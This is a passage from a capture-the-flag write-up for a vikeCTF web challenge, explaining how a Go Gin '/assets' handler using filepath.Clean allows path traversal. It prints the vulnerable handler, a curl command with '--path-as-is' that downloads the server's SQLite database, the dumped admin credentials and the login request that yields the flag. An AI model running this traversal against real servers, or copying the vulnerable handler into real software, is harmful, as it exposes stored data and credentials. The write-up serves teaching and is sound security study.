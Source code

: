 `assets` endpoint was only way to exfiltrate data, but **[filepath.Clean](https://pkg.go.dev/path/filepath#Clean)** is not exactly "safe" or works how we think.<br>
More about [filepath.Clean](https://github.com/golang/go/issues/16111)
```go
e.GET("/assets", func(c *gin.Context) {
    id := c.Query("id")
    path := filepath.Join("assets", filepath.Clean(id))
    c.File(path)
})
```

Example: [Playground](https://go.dev/play/p/0m35rHNCqmE)

```go
package main

import (
	"fmt"
	"path/filepath"
)

func main() {
    // Returns: Path: ../db.sqlite3
	fmt.Printf("Path: %s\n", filepath.Clean("../db.sqlite3"))
    // Returns: Path: Path: /db.sqlite3
	fmt.Printf("Path: %s\n", filepath.Clean("/../db.sqlite3"))
}
```

### Solution 

```bash
└─$ curl 'http://35.94.129.106:3001/assets?id=../db.sqlite3' --path-as-is -o db.sqlite3
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 16384  100 16384    0     0  23849      0 --:--:-- --:--:-- --:--:-- 23883
```

```sql
└─$ sqlite3 db.sqlite3
SQLite version 3.45.0 2024-01-15 17:01:13
Enter ".help" for usage hints.
sqlite> SELECT * FROM user;
admin|a36dc27c2955d4d4ec31f351c49fc7ac63b7e98908077bd1a7f0cfce1875c03d
```

Login as admin from UI and get flag. or curl:

```bash
└─$ curl 'http://35.94.129.106:3001/admin' -d 'username=admin&password=a36dc27c2955d4d4ec31f351c49fc7ac63b7e98908077bd1a7f0cfce1875c03d'
vikeCTF{whY_w0ulD_g0_d0_th15}
```

> Flag: vikeCTF{whY_w0ulD_g0_d0_th15}
{: .prompt-tip }
